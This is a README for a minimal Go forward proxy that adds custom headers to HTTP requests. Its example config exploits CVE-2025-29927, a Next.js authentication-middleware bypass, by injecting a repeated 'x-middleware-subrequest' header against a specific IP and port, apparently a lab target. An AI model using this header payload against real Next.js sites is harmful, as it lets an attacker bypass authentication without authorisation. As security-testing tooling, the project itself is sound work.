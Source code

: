 # Poor man's forward proxy
[![Go Tests](https://github.com/SaremS/pmfp/actions/workflows/go.yml/badge.svg?branch=master)](https://github.com/SaremS/pmfp/actions/workflows/go.yml)

## Summary
(currently http only)

Forward proxy with minimal features (currently only adds custom headers to each request)
## Usage
Currently
```
go run cmd/main.go --config {config-yaml; see examples} --port {target port to bind proxy to}
```

## Example
### CVE-2025-29927
(Auth-Middleware bypass in Next.JS)

#### Config (see examples):
```
scope:
- type: exact_match
  target_host: 94.237.57.115:54987
request_manipulators:
- type: add_header
  header_name: x-middleware-subrequest
  header_value: "middleware:middleware:middleware:middleware:middleware"
```

#### Result:
![Demo](./examples/cve_2025_29927_example.gif)
